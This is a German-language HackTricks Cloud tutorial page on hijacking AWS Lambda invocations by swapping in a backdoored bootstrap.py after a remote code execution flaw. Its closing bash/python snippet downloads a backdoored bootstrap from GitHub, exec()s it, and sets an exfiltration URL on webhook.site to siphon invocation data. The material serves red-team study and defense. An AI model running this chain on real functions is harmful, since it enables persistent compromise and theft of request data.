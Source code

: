 # AWS - Lambda-Anfragen stehlen

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Lambda-Flow

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** ist ein Prozess außerhalb des Containers, der **Aufrufe** an den **Init**-Prozess **sendet**.
2. Der Init-Prozess hört auf Port **9001** und exponiert einige interessante Endpunkte:
* **`/2018-06-01/runtime/invocation/next`** – hole das nächste Aufrufereignis
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – gib die Handler-Antwort für den Aufruf zurück
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – gib einen Ausführungsfehler zurück
3. **bootstrap.py** hat eine Schleife, die Aufrufe vom Init-Prozess erhält und den Benutzer-Code aufruft, um sie zu verarbeiten (**`/next`**).
4. Schließlich sendet **bootstrap.py** die **Antwort** an Init.

Beachte, dass bootstrap den Benutzer-Code als Modul lädt, sodass jede Codeausführung, die vom Benutzer-Code durchgeführt wird, tatsächlich in diesem Prozess stattfindet.

## Stehlen von Lambda-Anfragen

Das Ziel dieses Angriffs ist es, den Benutzer-Code dazu zu bringen, einen bösartigen **`bootstrap.py`**-Prozess innerhalb des **`bootstrap.py`**-Prozesses auszuführen, der die verwundbare Anfrage verarbeitet. Auf diese Weise wird der **bösartige Bootstrap**-Prozess beginnen, mit dem Init-Prozess zu **kommunizieren**, um die Anfragen zu bearbeiten, während der **legitime** Bootstrap **gefangen** ist und den bösartigen ausführt, sodass er keine Anfragen an den Init-Prozess stellt.

Dies ist eine einfache Aufgabe, da der Code des Benutzers vom legitimen **`bootstrap.py`**-Prozess ausgeführt wird. Der Angreifer könnte also:

* **Ein gefälschtes Ergebnis des aktuellen Aufrufs an den Init-Prozess senden**, sodass Init denkt, der Bootstrap-Prozess wartet auf weitere Aufrufe.
* Eine Anfrage muss an **`/${invoke-id}/response`** gesendet werden.
* Die invoke-id kann vom Stack des legitimen **`bootstrap.py`**-Prozesses mit dem [**inspect**](https://docs.python.org/3/library/inspect.html) Python-Modul (wie [hier vorgeschlagen](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) oder einfach erneut angefordert werden an **`/2018-06-01/runtime/invocation/next`** (wie [hier vorgeschlagen](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Einen bösartigen **`bootstrap.py`** ausführen, der die nächsten Aufrufe verarbeitet.
* Aus Gründen der Heimlichkeit ist es möglich, die Lambda-Aufrufparameter an ein vom Angreifer kontrolliertes C2 zu senden und die Anfragen dann wie gewohnt zu bearbeiten.
* Für diesen Angriff reicht es aus, den ursprünglichen Code von **`bootstrap.py`** vom System oder [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) zu erhalten, den bösartigen Code hinzuzufügen und ihn aus dem aktuellen Lambda-Aufruf auszuführen.

### Angriffs Schritte

1. Finde eine **RCE**-Schwachstelle.
2. Generiere einen **bösartigen** **Bootstrap** (z.B. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Führe** den bösartigen Bootstrap aus.

Du kannst diese Aktionen einfach ausführen, indem du Folgendes ausführst:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Für weitere Informationen siehe [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referenzen

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
